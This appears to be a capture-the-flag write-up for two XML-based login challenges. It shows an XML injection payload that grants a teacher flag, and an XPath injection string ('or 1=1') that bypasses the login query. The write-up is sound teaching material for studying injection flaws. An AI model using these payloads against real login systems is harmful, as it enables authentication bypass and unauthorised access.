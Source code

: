 # XML Injection

## Teacher Login 6

```text
XML Injection Login

Welcome! Can you log in as teacher?

Current Database (users.xml)
<users></users>

Add a User
Username:

Login
Username: 
```

The input fields are of **text** type

After adding a couple of users, the db looks like:

```xml
<users><user><username>user</username><is_teacher>no</is_teacher></user><user><username>user2</username><is_teacher>no</is_teacher></user></users>
```

Injecting `<is_teacher>yes</is_teacher>` using the payload:

```text
user3</username><is_teacher>yes</is_teacher></user><user><username>user4
```

The result db:

```xml
<users><user><username>user</username><is_teacher>no</is_teacher></user><user><username>user2</username><is_teacher>no</is_teacher></user><user><username>user3</username><is_teacher>yes</is_teacher></user><user><username>user4</username><is_teacher>no</is_teacher></user></users>
```

Logging in by "user3" gives the flag

## Teacher Login 7

The previous solution doesn't work as the input is being parsed; `<` and `>` are converted into `&lt;` and `&gt;`

In the sever code, we observe that XPath is being used to query:

```python
query = f"//user[username/text()='{username}' and is_teacher/text()='yes']"
```

[XPath Injection](https://owasp.org/www-community/attacks/XPATH_Injection) using the follwing username:

```text
user' or 1=1 or 'a'='a
```

This results in the following xpath query:

```text
//user[username/text()='user' or 1=1 or 'a'='a' and is_teacher/text()='yes']
username = 'user' or 1=1 or 'a'='a' and is_teacher='yes'
(username = 'user' or 1=1) or ('a'='a' and is_teacher='yes')
(false or true) or (true and false)
true or false
true
```

Logging in gives the flag
